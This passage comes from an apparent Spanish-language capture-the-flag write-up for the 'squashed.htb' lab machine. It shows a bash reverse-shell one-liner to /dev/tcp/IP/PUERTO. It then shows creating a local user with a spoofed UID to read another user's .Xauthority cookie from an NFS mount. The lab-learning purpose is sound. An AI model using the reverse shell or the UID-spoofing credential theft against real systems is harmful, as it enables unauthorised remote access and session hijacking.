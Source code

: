 <img src="cmd.png">

Para hacernos la reverse shell usaremos el siguiente oneline de bash.

- bash -c 'bash -i >& /dev/tcp/IP/PUERTO 0>&1'

<img src="reverse-shell.png">

# Enumeración del sistema

Al ganar acceso, lo ganamos como el usuario "alex"

Si recordamos, teníamos una montura como el usuario "ross", si listamos los recursos ocultos de esa montura, veremos que hay un archivo llamado .Xauthority.

```sh
$ cd /tmp/home-ross
$ ls -la
total 68
drwxr-xr-x 14 1001 test 4096 ene 27 03:32 .
drwxrwxrwt 19 root root 4096 ene 29 03:47 ..
lrwxrwxrwx  1 root root    9 oct 20 10:24 .bash_history -> /dev/null
drwx------ 11 1001 test 4096 oct 21 11:57 .cache
drwx------ 12 1001 test 4096 oct 21 11:57 .config
drwxr-xr-x  2 1001 test 4096 oct 21 11:57 Desktop
drwxr-xr-x  2 1001 test 4096 oct 21 11:57 Documents
drwxr-xr-x  2 1001 test 4096 oct 21 11:57 Downloads
drwx------  3 1001 test 4096 oct 21 11:57 .gnupg
drwx------  3 1001 test 4096 oct 21 11:57 .local
drwxr-xr-x  2 1001 test 4096 oct 21 11:57 Music
drwxr-xr-x  2 1001 test 4096 oct 21 11:57 Pictures
drwxr-xr-x  2 1001 test 4096 oct 21 11:57 Public
drwxr-xr-x  2 1001 test 4096 oct 21 11:57 Templates
drwxr-xr-x  2 1001 test 4096 oct 21 11:57 Videos
lrwxrwxrwx  1 root root    9 oct 21 10:07 .viminfo -> /dev/null
-rw-------  1 1001 test   57 ene 27 03:32 .Xauthority
-rw-------  1 1001 test 2475 ene 27 03:32 .xsession-errors
-rw-------  1 1001 test 2475 dic 27 12:33 .xsession-errors.old
```

Si lo intentamos listar nos dirá que no tenemos permiso para hacerlo.

```
$ cat .Xauthority 
cat: .Xauthority: Permiso denegado
```

Pero podemos hacer lo mismo que hicimos para poder acceder a la montura que estaba corriendo el servidor web, nos crearemos un segundo usuario y lo agregaremos al grupo 1001.

```sh
$ sudo adduser test2
$ sudo usermod -u 1001 test2
$ su test2
$ cat .Xauthority 

squashed.htb0MIT-MAGIC-COOKIE-1'tmӡb25`{
```
